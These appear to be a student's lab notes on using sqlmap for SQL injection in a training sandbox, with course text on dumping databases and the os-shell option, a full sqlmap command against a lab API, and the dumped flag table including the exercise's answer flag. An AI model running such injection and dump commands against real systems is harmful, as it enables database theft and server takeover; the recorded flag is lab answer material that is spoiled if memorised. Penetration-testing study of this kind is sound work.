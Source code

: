 ```bash
[19:45:57] [INFO] table 'sqlmap.users' dumped to CSV file '/root/.local/share/sqlmap/output/sql-sandbox/dump/sqlmap/users.csv'
[19:45:57] [WARNING] HTTP error codes detected during run:
500 (Internal Server Error) - 2 times
[19:45:57] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/sql-sandbox'

```


According to the output in Listing 22, sqlmap was able to dump the contents of the entire database. In addition to displaying the contents in the terminal window, sqlmap also created a CSV file with the dumped content.

Sqlmap has many other features, such as the ability to attempt Web Application Firewall (WAF) bypasses and execute complex queries to automate the complete takeover of a server. For example, using the _os-shell_ parameter will attempt to automatically upload and execute a remote command shell on the target system. However, this feature only works if the database writes to the application's web root and the application is written in ASP, ASPX, JSP, or PHP. When it does work, this shell can be somewhat slow but it can provide an effective foothold to gain access to the underlying server.

Sqlmap stores information in a session file to speed up tests against URLs that it has already scanned. In the case of our sandbox application, this can be detrimental since we can select which database the application uses. We can instruct sqlmap to ignore any previous sessions with the `--flush-session` flag.

As with any automated tool, sqlmap can miss SQL injection vulnerabilities. It may incorrectly identify the database, skip relevant test cases, fail because of arguments we apply, or fail because of misconfigurations on our part. Also, we should not rely on a tool if we do not understand how the tool works. However, we should consider using it in conjunction with tools like Burp Suite and Wireshark to capture what the tool is doing and then attempt to replicate the attacks manually. This is often a very effective learning technique and should not be overlooked.

For the following exercises, remember to use the `--flush-session` flag when switching between databases.



1. `OS{SQLMapFlagForMySQL}`
![[Pasted image 20240822155214.png]]
same command utilized from the exercises above
```bash
sqlmap -u http://sql-sandbox/sqlmap/api --method POST --data "db=mysql&name=taco&sort=id&order=asc" -p "name,sort,order" --dbms=mysql --dump --flush-session

Table: flags                                                                                                                                                                                                
[1 entry]                                                                                                                                                                                                   
+------+------------------------+                                                                                                                                                                           
| id   | flag                   |                                                                                                                                                                           
+------+------------------------+
| 1000 | OS{SQLMapFlagForMySQL} |
+------+------------------------+
```
![[Pasted image 20240822155244.png]]
